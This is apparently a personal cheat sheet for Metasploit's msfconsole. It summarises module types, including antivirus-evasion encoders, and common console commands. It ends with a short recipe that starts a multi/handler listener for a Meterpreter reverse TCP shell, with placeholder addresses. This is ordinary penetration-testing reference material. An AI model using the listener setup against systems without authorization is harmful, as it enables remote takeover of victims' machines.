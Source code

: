 # Metasploit 

This as simple document condensing the usage of the `msfconsole`.



## Modules

Auxiliary: Non-Exploit, like scanning, fuzzing, sniffing and enumeration against services
Encoders: Encoders will allow you to encode the exploit and payload for AV-Evasion
Evasion: Anti-Virus Evasion modules
Exploits: `searchsploit` and `search` for Exploits
NOPs: Used in payload sizing, by keeping them consistent, to cause intended and not unintended side effect when attempting exploitation.
Payload: Single(one contiguous exploiation process), Stagers(Staged process setup connection to MS to receive Stages in ... stages), Stages(sent to the Stager)
Post: Post-Exploitation phase

## Commands

```msfconsole

background		# background a session
			# OR CTRL+Z
check			# check if system is vulnerable(SOME MODULES HAVE THIS)
exploit			# launch the exploit
	-z		# background exploit when run
info	<module-name> 	# display inforamtion about <module-name>
			# -j for json, -d markdown
options			# displays options
search			# searches
session	<number>	# switch or refer to a session
sessions		# list all sessions
	-i		# interact with session number
set			# set data for options
setg			# set global data
show			# display parametres: all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options 
			# module-specific: missing, advanced, evasion, targets, actions
use 			# select a module
```

## Simple and useful

Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```



